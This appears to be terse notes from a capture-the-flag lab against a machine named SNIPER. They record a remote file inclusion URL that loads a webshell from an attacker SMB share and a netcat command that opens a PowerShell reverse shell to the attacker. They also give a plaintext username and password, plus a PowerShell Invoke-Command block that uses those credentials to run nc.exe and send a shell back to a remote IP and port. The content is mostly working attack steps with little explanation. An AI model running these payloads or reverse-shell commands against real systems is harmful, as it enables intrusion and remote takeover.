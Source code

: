 ##

http://10.129.107.51/blog/?lang=//10.10.14.4//evil//webshell.php

##

#
WEB RFI doesn't work, but SMB RFI works. Reverse Shell with Pentesting Monkey doesn't work, but Metepreter and WebShell work. 

Created Dir and upload NC to execute powershell to kali. nc.exe -e powershell ip port
#

#
$username = 'SNIPER\Chris'
 $password = '36mEAhz/B8xQ~2VM'
 $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
 $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
 Invoke-command -computername SNIPER -credential $credential -scriptblock { cmd.exe /c "C:\tmp\nc.exe" -e powershell 10.10.14.39 1234 }
#
